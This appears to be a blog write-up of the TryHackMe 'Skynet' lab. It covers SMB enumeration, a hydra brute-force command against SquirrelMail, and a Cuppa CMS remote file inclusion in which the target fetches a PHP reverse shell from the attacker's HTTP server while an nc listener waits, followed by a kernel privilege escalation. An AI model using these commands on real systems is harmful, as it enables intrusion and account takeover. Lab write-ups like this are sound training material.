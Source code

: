 ```yaml
---
layout: single
classes: #wide
title: "Try Hack Me - Skynet"
toc: true
toc_sticky: false
author_profile: true
collection: posts
categories: [CTF, Hack The Box]
tags: [meterpreter, hydra, nmap]
---
```

![title](/assets/images/skynet/title.png)
I started this machine like any other using a simple nmap scan to get an understanding of what services are running. And just as always, answers will be in the source code in comments.

![nmap](/assets/images/skynet/nmap.png)

Within the nmap scan we can see that there is a samba server running on port 139
and 445. This is a very good starting point to see if we have any access to the
samba shares. Running another nmap scan, but this time using the smb enumeration scripts using the `-sC` command whithin nmap will present us iwth this information:

![smb](/assets/images/skynet/nmapsmb.png)

This scan showed us that we have read and write acessability to the share
anonymous. Now, we can either mount the share to our system or we can read it on
the server. I chose to mount the drive with the command `sudo mount
//10.10.84.83/anonymous /mnt/skynet`.   

Listing the directory that we just mounted we find that therer are log files and
a notififcaiton from Miles Dyson telling us that there was a malfunction that
changed skynet employee passwords. Exploring the log files we will see the password changes for the employees. 
![pws](/assets/images/skynet/pws.png)

During this period of time I had a gobuster scan running. It found a few directories but the one thats important to note is `/squirrelmail`. Why? Because this mail server was what was being affected during the password resets.

Going back to the smb shares there was a share named milesdyson. Meaning more than likely there is a milesdyson user on the squirrel mail server. Going to the squirrelmail directory within the website we can see a login forum presented to us.   

Brute force time :smile:

Using hyrdra the paylod will look a little like this:  
`hydra -l milesdyson -P milessharepw.txt 10.10.84.83 http-post-form "/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:F=Unknown user or password incorrect."`

Finding the password to the account is: 
<!-- cyborg007haloterminator! -->
    
After logging into milesdyson's squirrelmail account I figured I'd mess around
with some public CVE's and nothing worked that I had found. Now, looking myles's
emails there is one that stands out. `Samba Password Reset`, within that email we will find this:
![smbpw](/assets/images/skynet/smbpw.png)

YAY! We now know his smb password. Back to the smb shares we go. Upon mounting
miles's share we find a important.txt file within his notes folder. In this
folder contains his todo list of what he want's to accomplish more. 

![important](/assets/images/skynet/import.png)
 
Knowing he wants to spend more time with his wife gives us the upperhand :smiling_imp:

Definitely not the secret dierctory `/45kra24zxs28v3yd` :eyes:

So, now that we have a new directory we can go visit it, entering the site's new
unfound page there isn't a whole lot. But, if you remember Miles said something
about CMS /secret_dir. Now this we can do something about. Running another
gobuster on this subdomain we find out that there is a Cuppa CMS server running
under the `/administrator` directory. So, in full it is
`skynet/45kra24zxs28v3yd/administrator/`. 

Funny enough cuppa has a `remote file inclusion` vulnerability which can be found
[here](https://www.exploit-db.com/exploits/25971). Little hint this is an answer
to one of the questions. If you don't care to look
through it I'll give you the short version. Basically the program allows php
code injection at the url `/alerts/alertConfigField.php`. This is all thanks to
this line within that file on line 22:

`<?php include($_REQUEST["urlConfig"]); ?>`

So, we know there is a vulnerability. How can we take advantage of this? Well,
since we have RCE a simple php reverse shell (because its executing php) and
hosting the file on our computer for the server to obtain will be enough to give
us a user on the machine. 

so, 
```
python -m http.server 8887 - host file
nc -lvnp <reverse.php port> - listen for reverse shell
skynet/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=<ip>:8888/reverse.php - url for execution
```

Running these 3 commands gets us a user shell into the machine. 

Time to escalate!

Moving linpeas onto the machine and running it gives a few CVE's that we can exploit. Personally I chose [this](https://www.exploit-db.com/exploits/45010) one. Moving this onto the box, running gcc on the .c file and executing it is enough to give us root.


Just like that the box is ours :flushed:

Thank you for reading!  
-Ryushe 